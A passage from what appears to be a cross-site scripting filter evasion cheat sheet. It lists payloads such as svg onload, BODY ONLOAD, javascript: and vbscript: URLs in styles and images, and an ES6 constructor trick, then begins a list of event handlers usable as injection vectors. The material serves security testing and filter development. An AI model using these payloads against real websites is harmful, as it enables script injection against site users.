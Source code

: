 ````

List-style-image
----------------

Fairly esoteric issue dealing with embedding images for bulleted lists. This will only work in the IE rendering engine because of the JavaScript directive. Not a particularly useful cross site scripting vector:

`<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>`

VBscript in an Image
--------------------

`<IMG SRC='vbscript:msgbox("XSS")'>`

Livescript (older versions of Netscape only)
--------------------------------------------

`<IMG SRC="livescript:[code]">`

SVG Object Tag
--------------

`<svg/onload=alert('XSS')>`

ECMAScript 6
------------

```
Set.constructor`alert\x28document.domain\x29
```

BODY Tag
--------

Method doesn’t require using any variants of `javascript:` or `<SCRIPT...` to accomplish the XSS attack). Dan Crowley additionally noted that you can put a space before the equals sign (`onload=` != `onload =`):

`<BODY ONLOAD=alert('XSS')>`

Event Handlers
--------------

It can be used in similar XSS attacks to the one above (this is the most comprehensive list on the net, at the time of this writing). Thanks to Rene Ledosquet for the HTML+TIME updates.

The [Dottoro Web Reference](http://help.dottoro.com/) also has a nice [list of events in JavaScript](http://help.dottoro.com/ljfvvdnm.php).

1.  `FSCommand()` (attacker can use this when executed from within an embedded Flash object)
2.  `onAbort()` (when user aborts the loading of an image)
3.  `onActivate()` (when object is set as the active element)
4.  `onAfterPrint()` (activates after user prints or previews print job)
5.  `onAfterUpdate()` (activates on data object after updating data in the source object)
6.  `onBeforeActivate()` (fires before the object is set as the active element)
7.  `onBeforeCopy()` (attacker executes the attack string right before a selection is copied to the clipboard - attackers can do this with the `execCommand("Copy")` function)
8.  `onBeforeCut()` (attacker executes the attack string right before a selection is cut)
9.  `onBeforeDeactivate()` (fires right after the activeElement is changed from the current object)
10.  `onBeforeEditFocus()` (Fires before an object contained in an editable element enters a UI-activated state or when an editable container object is control selected)
````